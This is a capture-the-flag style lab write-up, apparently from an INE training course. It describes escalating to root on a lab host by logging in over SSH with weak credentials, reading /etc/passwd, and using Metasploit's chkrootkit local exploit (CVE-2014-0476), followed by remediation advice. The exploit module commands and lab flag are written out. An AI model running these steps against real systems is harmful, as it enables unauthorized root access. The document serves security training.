# Privilege Escalation: Rootkit Scanner

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.230.160.3) — Ubuntu, OpenSSH 7.6p1<br>
**Credentials:** `jackie:password`<br>
**Flag:** `9db8bf8f483ff50857f26f9bd636bed6`

## 1. Executive Summary

We log in over SSH as `jackie` and enumerate the host. A scheduled job runs **chkrootkit**
(the rootkit scanner) as root every minute; versions **< 0.50** execute any file named
`/tmp/update` as root (CVE-2014-0476). Metasploit's `chkrootkit` local exploit plants that
file and escalates to root to read the flag.

## 2. Recon & Access

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.230.160.3
services
```







Logging in with the lab credentials via `ssh_login`.

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.230.160.3
set USERNAME jackie
set PASSWORD password
run
```







Upgrading to a Meterpreter session.

```bash
sessions -u 1
```





## 3. Enumeration

```bash
shell
cat /etc/passwd        # jackie & root
```



```bash
ps aux
```



A scheduled `/bin/check-down` runs `chkrootkit` every 60 seconds.

```bash
cat /bin/check-down
```





## 4. Exploiting chkrootkit

`chkrootkit < 0.50` runs any `/tmp/update` file as root.

```
Chkrootkit before 0.50 will run any executable file named /tmp/update as root,
allowing a trivial privilege escalation.
```



```bash
use exploit/unix/local/chkrootkit
set SESSION 2
set CHKROOTKIT /bin/chkrootkit
run
```



The exploit yields a root session; the flag follows.

```
cat flag
# 9db8bf8f483ff50857f26f9bd636bed6
```



## 5. Remediation Recommendations

1. **Upgrade chkrootkit** to ≥ 0.50 (CVE-2014-0476) or remove it from scheduled root jobs.
2. **Never run user-writable paths** (`/tmp/update`) from root cron/scheduled tasks; validate
   paths and permissions.
3. **Enforce strong SSH credentials** (`jackie:password` is trivial) and key-based auth.
4. **Apply least privilege** and monitor `/tmp` for planted executables.
